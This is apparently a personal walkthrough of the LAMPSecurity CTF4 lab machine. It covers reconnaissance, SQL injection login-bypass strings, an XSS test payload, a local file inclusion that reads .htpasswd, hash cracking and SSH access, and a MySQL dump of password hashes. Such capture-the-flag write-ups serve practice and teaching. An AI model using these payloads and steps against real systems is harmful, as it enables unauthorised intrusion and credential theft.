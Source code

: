 LAMPSecurity: CTF4

[Machine](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/ "https://www.vulnhub.com/entry/lampsecurity-ctf4,83/")

## Reconnaissance

### nmap

* ssh
* smtp
* http
* ipp(closed)

### Vulnerable versions

* [ ] ssh

* [x] smtp - Sendmail 8.13.5 - Remote Signal Handling (PoC)

* [ ] http

### http

#### robots.txt

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

#### /mail/

* Log in form.

* SquirrelMail 1.4.17. 

#### /restricted/

* Server authentication window.

#### /conf/

* Internal Server Error.

#### /sql/

* File `db.sql` with queries.

#### /admin/

* Log in form.

#### /calendar/

* Real calendar.

* Log in button.

#### /pages/

* A three `.php` files.

#### /usage/

* Statistics.

* Webalizer version 2.01 - nothing.

#### /index.html?page=blog&title=Blog

* user: `jdurbin`

#### whatweb

* PHP 5.1.6
```
PHP 5.1.6 - 'Chunk_Split()' Integer Overflow                                                                                                                                                      
PHP 5.1.6 - 'Imap_Mail_Compose()' Remote Buffer Overflow                                                                                                                                               
PHP 5.1.6 - 'Msg_Receive()' Memory Allocation Integer Overflow       
PHP 5.1.6 - Mb_Parse_Str Function Register_Globals Activation
```

#### dirb
 
* http://192.168.88.222/mail/configure - some sh script.

* http://192.168.88.222/admin/inc/blog.php - form with SQL error disclosure.

* http://192.168.88.222/mail/contrib/decrypt_headers.php - form with key and string.

### smtp

#### smtp-commands nmap script

`nmap -p25 --script smtp-commands -oA commands 192.168.88.222` - gives nothing.

#### smtp-enum-users nmap script

`nmap --script smtp-enum-users 192.168.88.222` - gives the result that VRFY and EXPN methods are not working.

#### Grab banner

`nc -vn 192.168.88.222 25`. Then `HELO x` and it shows the domain `ctf4.sas.upenn.edu`.

## Thread modeling

1. Exploit: `Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion.`

2. Exploit: `Sendmail 8.13.5 - Remote Signal Handling (PoC)`

3. Try SQLi at `/admin/inc/blog.php`.

4. Examine /mail/contrib/decrypt_headers.php

5. Brute-force ssh with username jdurbin.

6. Try SQLi at login forms. 

## Vulnerability analysis

1. Local File Inclusion with `src/redirect.php?plugins[]=../../../../etc/passwd%00` doesn't work.

2. PoC exploit seems doesn't work too.

3. I couldn't exploit it, because there was escape \.

4. It just tries to encode string(?) with key(?).

5. Didn't give a result.

6. `' or 1=1` gives a SQL error with query exfiltration :) You need to do it with `Burp` cause JS code will delete all `'` symbols.

7. Also, in search panel and title, classic xss `<script>alert(1);</script>`.

You also have a squirrel login panel, but I think that it will not be vulnerable or more difficult to exploit than the login panel above.

## Exploitation

### login form SQLi

`' or 1=1` works. Mysql error:
```sql
select user_id from user where user_name='' or 1=1' AND user_pass = md5('' or 1=1')
```

admin: `' or 1='1
password: `') or 1=1#`
Final query will be next:
```
select user_id from user where user_name='' or 1='1' AND user_pass = md5('') or 1=1#')
```
And it will give the access. Your id cookie will be 6. But you will not get anything after that. :(

### Additional reconnaissance

I don't get a new opportunity to get access to the target. Need an additional enumeration.

Searching...

### LFI

With `http://ctf4.sas.upenn.edu/?page=../inc/footer` you will get a cup of footers.

Apache - .htaccess, .htpasswd.

Now, combine it: `?page=../restricted/.htpasswd%00`
`/restricted/` from robots.txt, `%00` for end file without `.php` extension, other way Apache will treat it as php file.

Then `john` will easily crack the hashes. `ssh sorzek@192.168.88.222 -o KexAlgorithms=diffie-hellman-group-exchange-sha1`. Got access to the target.

## Post exploitation

Logins and enumeration:

* sorzek - nothing.

* dstevens - nothing. But actually has information in the mail folder. Talk about passwords "password1234" and "undone".

* pmoore - has access to MySQL with `mysql -u root -p` and password `database`. So, next, I did:
```sql
use ehks;
show tables;
select * from user;
```
And got all the md5 hashes. The next step is to crack them all.

